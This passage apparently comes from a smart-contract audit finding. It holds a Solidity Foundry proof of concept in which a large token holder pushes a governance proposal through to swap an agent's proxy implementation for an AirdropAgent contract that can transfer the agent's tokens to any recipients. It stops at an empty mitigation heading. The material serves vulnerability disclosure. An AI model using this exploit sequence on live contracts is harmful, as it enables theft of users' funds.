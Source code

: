 ```solidity
        // Set agent as alive
        factory.setAgentStage(address(agent), 1);

        address[] memory targets = new address[](1);
        targets[0] = address(agent);
        uint256[] memory values = new uint256[](1);
        bytes[] memory calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSignature("setProxyImplementation(address)", address(airdropAgentProxy));
        string memory description = "Set the airdropAgentProxy implementation";

        vm.startPrank(whale);
        token.delegate(whale);
        vm.warp(block.timestamp + 1);
        uint256 nonce = governor.propose(targets, values, calldatas, description);

        vm.warp(block.timestamp + governor.votingDelay() + 1);
        governor.castVote(nonce, 1);

        vm.warp(block.timestamp + governor.votingPeriod());
        governor.execute(targets, values, calldatas, keccak256(abi.encodePacked(description)));
        vm.stopPrank();

        console.log(AirdropAgent(payable(agent)).hello());
    }
}

contract AirdropAgent is Agent {
    constructor(
        string memory name,
        string memory symbol,
        string memory url,
        address _factory
    ) Agent(name, symbol, url, _factory) {}

    function airdropTokens(address[] memory _recipients, uint256 _amount) public onlyOwner {
        for (uint256 i = 0; i < _recipients.length; ++i) {
            IERC20(token).transfer(_recipients[i], _amount);
        }
    }

    function hello() public pure returns (string memory) {
        return "Hello";
    }
}

contract DefaultProxy {}
```

### Recommended mitigation steps
